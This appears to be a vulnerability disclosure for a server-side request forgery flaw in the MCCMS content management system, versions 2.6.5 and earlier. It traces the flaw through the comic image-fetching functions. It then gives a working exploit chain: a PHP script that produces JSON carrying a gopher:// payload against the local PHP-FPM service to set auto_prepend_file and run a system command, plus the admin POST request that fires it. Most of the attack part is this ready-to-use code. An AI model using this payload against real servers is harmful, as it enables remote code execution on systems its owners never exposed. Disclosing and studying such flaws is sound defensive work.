






# MCCMS is vulnerable to Server-side request forgery (SSRF)
## Description
    MCCMS <= 2.6.5 is vulnerable to Server-side request forgery (SSRF)
## Vendor Homepage
    https://github.com/chshcms/mccms/

## Author
    HuBenLab
## Proof of Concept
The problem lies in the pic_api function in `sys/apps/controllers/admin/Comic.php`, which is used to cause ssrf by controlling the` $url`.

Code Analysis:

```php
    public function pic_api($url='',$mid=0,$cid=0,$tb=0,$return=0){
        if(empty($url)) $url = $this->input->get_post('url',true);//漏洞传参
        if(empty($cid)) $cid = (int)$this->input->get_post('cid');
        if(empty($mid)) $mid = (int)$this->input->get_post('mid');
        if(empty($url)) get_json('解析地址不能为空');
        if($mid == 0) get_json('Mid不能为空');
        if($cid == 0) get_json('章节ID不能为空');
        $row = $this->mcdb->get_row_arr('comic','*',array('id'=>$mid));

        if(!$row) get_json('漫画不存在');
        //解析
        $this->load->model('collect');
        $collect = require MCCMSPATH.'libs/collect.php';
        $ly = $row['ly'];
        $token = isset($collect['zyk'][$ly]) ? $collect['zyk'][$ly]['token'] : Caiji_Tb_Token;
        $picarr = $this->collect->get_update_pic($url,$cid,$mid,$token,$tb);//漏洞点
        if(empty($picarr)){
            if($return == 1){
                return false;
            }else{
                get_json('解析失败!!!');
            }
        }
        if($return == 1) return $picarr;
        $pic_arr = $this->mcdb->get_select('comic_pic','*',array('cid'=>$cid),'xid ASC',10000);
        $data['msg'] = '解析成功';
        $data['pic'] = $pic_arr;
        get_json($data,1);
    }
```

Follow up get_update_pic function, url passed into getcurl function trigger vulnerability, $url this pass reference get_post function second parameter to true, will enter the xss security filter, can url code all decoding, this place even if the secondary url code to play unauthorized can not bypass the security monitoring, so this place can only send some simple requests.

```php
    function get_update_pic($url,$zjid=0,$mid=0,$token='',$tb=0){
        $parr = json_decode(getcurl($url.'?token='.$token),1);//Trigger ssrf
        if($parr['code'] != 1) return false;
        $pic = $parr['data']['image'];
        foreach ($pic as $k2 => $v2) {
            $md5 = md5($v2['src']);
            //Determine if the image exists
            $row2 = $this->mcdb->get_row_arr('comic_pic','id,img',array('md5'=>$md5));
            if(!$row2){
                $add['img'] = $v2['src'];
                //Download image to local
                if(Caiji_Tb_Pic == 1 || $tb == 1) $add['img'] = get_downpic($add['img']);//Trigger second ssrf
                $add['width'] = isset($v2['width']) ? (int)$v2['width'] : 0;
                $add['height'] = isset($v2['height']) ? (int)$v2['height'] : 0;
                $add['cid'] = $zjid;
                $add['mid'] = $mid;
                $add['md5'] = $md5;
                $add['xid'] = $k2;
                $this->mcdb->get_insert('comic_pic',$add);
            }elseif($tb == 1 && strpos($row2['img'],'://') !== false){
                $img = get_downpic($row2['img']);
                $this->mcdb->get_update('comic_pic',$row2['id'],array('img'=>$img));
            }
        }
        //Total number of updated chapter pictures
        $this->mcdb->get_update('comic_chapter',$zjid,array('pnum'=>$parr['data']['image_num']));
        return $pic;
    }
```



See the download image can be associated with remote download Trojan, but here can not download because it has monitored the suffix name, but here can still cause secondary ssrf.analysis of the code, to use the get_downpic function must meet the Caiji_Tb_Pic variable is 1 or tb variable is 1, tb we can not change, try to change the Caiji_Tb_Pic.

After searching, found caiji.php can change the variables.



Select `Synchronize Collection and Inventory` and save.



Continue to follow up the get_downpic function, directly into the getcurl function caused ssrf, using the second ssrf benefit is that you can bypass the filter to hit the unauthorized vulnerability.

```php
function get_downpic($picurl,$dir='comic'){
    $img = getcurl($picurl);
    $ext = strtolower(trim(substr(strrchr($picurl, '.'), 1)));
    if(!in_array($ext,array('jpg','png','jpeg','gif'))) $ext = 'jpg';
    $img_path_file = FCPATH.Annex_Dir.'/'.$dir.'/'.get_str_date(Annex_Path).'/';
    mkdirss($img_path_file);
    $img_path_file .= md5($picurl).'.'.$ext;
    $fp = fopen($img_path_file,'w');
    fwrite($fp, $img);
    //水印
    get_watermark($img_path_file);
    //同步
    get_tongbu($img_path_file);
    return str_replace(FCPATH,Web_Path,$img_path_file);
}
```

Construct the payload, here is an example of attacking fpm unlicensed.

```php
<?php
$a=array("code"=>1,"data"=>array("image"=>array("src"=>array("src"=>"gopher://127.0.0.1:7400/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%2A%02%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH72%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%3DSCRIPT_FILENAME/www/admin/www.mancheng.com_84/wwwroot/mccms-master/index.php%0D%01DOCUMENT_ROOT/%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00H%04%00%3C%3Fphp%20system%28%27touch%20/tmp/123123123%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00"))));
$b=(json_encode($a));
echo $b;
```

Put the generated json file in the server, the json format is generated by the get_update_pic function's fetching process here.



Send a request to download the file, here we should notice that the same payload can only be used once, the second time will only update the database content will not download the file.



payload:

```
http://172.16.5.221:84/admin.php/Comic/pic_api

post:url=http://xxxxx/1.png&cid=1&mid=1
```

Successful attack

